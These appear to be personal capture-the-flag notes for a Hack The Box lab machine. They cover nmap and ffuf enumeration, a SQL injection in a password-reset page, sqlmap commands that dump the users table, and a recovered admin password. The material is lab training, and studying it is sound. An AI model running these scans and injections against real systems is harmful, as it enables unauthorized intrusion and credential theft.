 #### nmap

Service scan
```bash
sudo nmap -sC -sV 10.10.11.30 -oA nmap -v
```
![[Pasted image 20241014183753.png]]

#### manual

Subdomain enumeration
```bash
ffuf -u http://monitorsthree.htb -H "Host: FUZZ.monitorsthree.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fc 200
```
![[Pasted image 20241014191937.png]]

Added entries to /etc/hosts
```
10.10.11.30 monitorsthree.htb cacti.monitorsthree.htb
```

![[Pasted image 20241014192017.png]]

On http://monitorsthree.htb/forgot_password.php there's an SQL injection possible. Tested it by entering `%27` in username field.

Using sqlmap
```bash
sqlmap -r r.txt --risk=3 --level=5 --dbs 
```
![[Pasted image 20241014202917.png]]

```bash
sqlmap -r r.txt --risk=3 --level=5 -D monitorsthree_db --tables
```
![[Pasted image 20241014202944.png]]

```bash
sqlmap -r r.txt --risk=3 --level=5 -D monitorsthree_db -T users -C username,password --dump
```
![[Pasted image 20241014203017.png]]
![[Pasted image 20241014203054.png]]
`admin:greencacti2001`

